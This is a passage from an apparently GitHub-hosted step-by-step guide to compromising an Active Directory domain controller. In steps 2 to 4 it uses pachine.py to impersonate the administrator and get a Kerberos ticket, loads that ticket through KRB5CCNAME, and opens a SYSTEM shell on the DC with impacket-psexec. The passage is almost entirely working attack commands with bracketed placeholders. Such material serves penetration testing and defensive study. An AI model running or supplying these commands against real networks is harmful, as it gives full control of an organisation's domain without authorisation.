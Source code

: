 <br>

2. Using *pachine.py*, acquire administrator's Kerberos ticket. This ticket is saved for a .ccache file in the current directory.

`$python3 pachine.py -dc-host [DC FQDN] -spn cifs/[DOMAIN] -impersonate administrator '[DOMAIN]/[USERNAME]:[PW]'`

![](./images/impacket/4-impersonate_v2.png)

<br>

3. Export path of the .ccache file to an environmental variable called **KRB5CCNAME**. Check the local directory for the file if needed. After the export valid Kerberos tickets can be checked.

`$export KRB5CCNAME=$PWD/[CCACHE_FILE_NAME]`

`$klist`

![](./images/impacket/5-ticket_to_env_var_v2.png)

NOTE: If you use auto-completion (TAB) to fill the ccache filename into the export command, terminal may automatically escape the dollar sign in `$PWD`. Make sure the dollar sign is **not** escaped.


4. Open a shell on the DC as user "system" with the following command:

`$impacket-psexec -k -no-pass [DOMAIN]/administrator@[DOMAIN]`
